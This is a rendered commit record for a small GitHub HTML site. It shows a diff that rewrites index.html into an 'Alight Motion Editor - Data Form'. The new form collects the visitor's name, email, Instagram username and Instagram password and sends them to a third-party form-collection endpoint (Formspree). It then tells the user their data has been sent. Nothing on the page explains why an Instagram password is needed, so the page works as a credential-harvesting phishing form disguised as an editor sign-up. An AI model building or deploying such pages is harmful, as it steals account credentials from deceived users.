

Before and after one commit to yashgaikwad0821/motion-editor-form, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Add files via upload

```diff
--- a/index.html
+++ b/index.html
@@ -3,32 +3,61 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Motion Editor Form</title>
+    <title>Alight Motion Editor - Data Form</title>
     <style>
-        body { font-family: Arial, sans-serif; background-color: #1e1e1e; color: white; text-align: center; }
-        .container { width: 80%; margin: auto; padding: 20px; background: #333; border-radius: 10px; }
-        input, select { width: 90%; padding: 10px; margin: 10px; background: #555; color: white; border: none; }
-        button { padding: 10px 20px; background: #00ff88; color: black; border: none; cursor: pointer; }
+        body {
+            font-family: Arial, sans-serif;
+            background-color: #f4f4f4;
+            text-align: center;
+            padding: 20px;
+        }
+        form {
+            background: white;
+            padding: 20px;
+            border-radius: 8px;
+            max-width: 400px;
+            margin: auto;
+            box-shadow: 0px 0px 10px rgba(0, 0, 0, 0.1);
+        }
+        input {
+            width: 100%;
+            padding: 10px;
+            margin: 8px 0;
+            border: 1px solid #ccc;
+            border-radius: 5px;
+        }
+        button {
+            background-color: #28a745;
+            color: white;
+            padding: 10px 15px;
+            border: none;
+            border-radius: 5px;
+            cursor: pointer;
+        }
+        button:hover {
+            background-color: #218838;
+        }
     </style>
 </head>
 <body>
-    <div class="container">
-        <h2>Motion Editor - Input Form</h2>
-        <input type="text" id="userInput" placeholder="Enter Motion Details">
-        <button onclick="sendData()">Submit</button>
-    </div>
+
+    <h2>Alight Motion Editor - Data Form</h2>
+
+    <form id="dataForm" action="https://formspree.io/f/YOUR_FORM_ID" method="POST">
+        <input type="text" name="name" placeholder="Your Name" required>
+        <input type="email" name="email" placeholder="Your Email" required>
+        <input type="email" name="your_email" placeholder="Your Email (Again)" required>
+        <input type="text" name="am_name" placeholder="Alight Motion Name" required>
+        <input type="text" name="ig_username" placeholder="Instagram Username" required>
+        <input type="password" name="ig_password" placeholder="Instagram Password" required>
+        <button type="submit">Submit</button>
+    </form>
+
     <script>
-        function sendData() {
-            let input = document.getElementById("userInput").value;
-            fetch("https://your-server.com/receiveData", {
-                method: "POST",
-                headers: { "Content-Type": "application/json" },
-                body: JSON.stringify({ data: input })
-            })
-            .then(response => response.json())
-            .then(data => alert("Data Sent!"))
-            .catch(error => console.error("Error:", error));
-        }
+        document.getElementById("dataForm").addEventListener("submit", function(event) {
+            alert("Form submitted! Your data has been sent.");
+        });
     </script>
+
 </body>
 </html>
```
